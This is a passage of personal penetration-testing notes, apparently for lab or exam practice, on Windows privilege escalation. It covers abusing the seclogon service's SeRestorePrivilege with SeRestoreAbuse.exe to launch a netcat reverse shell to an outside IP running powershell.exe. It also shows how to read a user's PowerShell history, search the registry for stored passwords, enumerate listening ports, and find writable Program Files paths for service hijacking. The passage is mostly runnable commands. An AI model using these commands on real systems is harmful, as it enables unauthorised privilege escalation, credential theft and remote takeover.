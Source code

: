 reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```
- need to see:
	- ObjectName = LocalSystem
	- RequiredPrivileges lists SeRestorePrivilege
	- Start value = 0x3 (0x3 means manual)
```
cmd.exe /c sc sdshow seclogon
```
- confirm we have correct permissions to manipulate the service
- need to see RP on the AU section, ex (A;;CCLCSW==RP==DTLOCRRC;;;==AU==)
	- RP = Start Service
	- AU = All Users
start listener, upload SeRestoreAbuse.exe and nc.exe to C:\temp, and run this command:
```
.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.45.208 4444 -e powershell.exe"
```
- root shell; might be unstable, use nc to create another shell (will be more stable without SeRestoreAb)

***Powershell history***
```
type C:\users\rudi.davis\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
- also check actual folder for other files
- check other users (sometimes administrator isn't blocked?)


***Search reg keys***
```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```

***Check listening ports***
```
netstat -ano | findstr LISTENING
```
TCP
```
Get-NetTCPConnection -State Listen | ForEach-Object { $_ | Add-Member -MemberType NoteProperty -Name ProcessName -Value (Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue).Name; $_ } | Select-Object LocalAddress, LocalPort, OwningProcess, ProcessName
```
- more details
UDP
```
Get-NetUDPEndpoint | ForEach-Object { $_ | Add-Member -MemberType NoteProperty -Name ProcessName -Value (Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue).Name; $_ } | Select-Object LocalAddress, LocalPort, OwningProcess, ProcessName
```


***Check  `C:\Program Files` and `C\Program Files (x86)` for third-party programs***
- if anything interesting, check permissions on executables and directories
	- `icalcs "C:\Program Files\nasm-2.24\win64\nssm.exe"`
	- `icalcs "C:\Program Files\nasm-2.24\win64"`
		- looking at BUILTIN\Users: for (W), (M) or (F)
			- could potentially hijack a service or disguise a rev shell

***version/architecture***
```